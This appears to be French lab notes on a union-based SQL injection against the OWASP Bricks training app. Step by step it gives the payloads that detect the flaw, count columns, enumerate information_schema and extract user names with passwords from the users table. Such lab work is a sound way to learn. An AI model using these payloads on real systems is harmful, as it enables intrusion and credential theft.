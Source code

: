 http://owaspbwa/owaspbricks/content-1/index.php?id=0

id=1
-> renvoi un autre utilisateur

id=0' LIMIT 1
-> renvoi une erreur ce. Notre quote a "casser" la requete. Signe d'une SQLi possible

id=0 and 1=1
-> Page affichée sans erreur. 1=1 est TRUE

id=0 and 1=2
-> la deuxième condition est fausse ça ne renvoi pas d'utilisateur

id=0 order by 1
...
id=0 order by 8
id=0 order by 9
-> à 9 colonnes ça plante ! la table des utilisateurs contient donc 8 colonnes.

id=0 UNION SELECT 1,2,3,4,5,6,7,8
-> Retourne 2 enregistrements le user admin (id=0) et un enregistrement avec les entiers 1..8

id=0 and 1=2 UNION SELECT 1,2,3,4,5,6,7,8
-> un seul enregistrment retourné : les entiers 1..8 car id=0 and 1=2 ne renvoi rien, bien que l'ID soit valide, la condition est FALSE

id=0 and 1=2 UNION SELECT user(),2,3,4,5,6,7,8
On peut maintenany récupérer l'utilisateur connecté à la BDD
database() : base de donnée courante , table_name, column_name,

id=0 and 1=2 UNION SELECT column_name,2,3,4,5,6,7,8 from information_schema.columns where table_schema='bricks' and table_name='users' LIMIT 0,1 -- -
-> renvoi le nom de la première colonne "idusers"

Pour avoir le second champ :
id=0 and 1=2 UNION SELECT column_name,2,3,4,5,6,7,8 from information_schema.columns where table_schema='bricks' and table_name='users' LIMIT 1,1 -- -
...
et continuer jusuqu'a : ... LIMIT 7,1

Récupére le nom user et pass  séparé par un espace
id=0 and 1=2 UNION SELECT concat(name,CHAR(32),password),2,3,4,5,6,7,8 from bricks.users LIMIT 0,1 -- -
